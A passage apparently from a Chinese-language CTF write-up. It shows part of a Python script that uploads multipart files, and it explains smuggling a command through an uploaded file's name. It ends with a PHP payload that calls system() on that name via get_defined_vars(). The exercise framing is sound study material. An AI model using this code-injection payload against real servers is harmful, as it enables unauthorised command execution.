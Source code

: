 >        'data2': ('data_2', "2", "image/jpeg")
>    }
>    r_files_2 = [('image1', ('1.png', '1', 'image/png', {"aa": "bb"})),
>                 ('image2', ('2.png', '2', 'image/png'))]
>    r = requests.post(url=url, headers=header, files=r_files_2, proxies=proxy)
>    print(r.text)
>```
>
>![image-20230720220418361](daydayup.assets/image-20230720220418361.png)

这里要注意的是，file数组在最后一个，需要end定位，因为payload直接放在文件的名称上，再pos两次定位获得文件名

`print_r(system(pos(current(end(get_defined_vars())))))`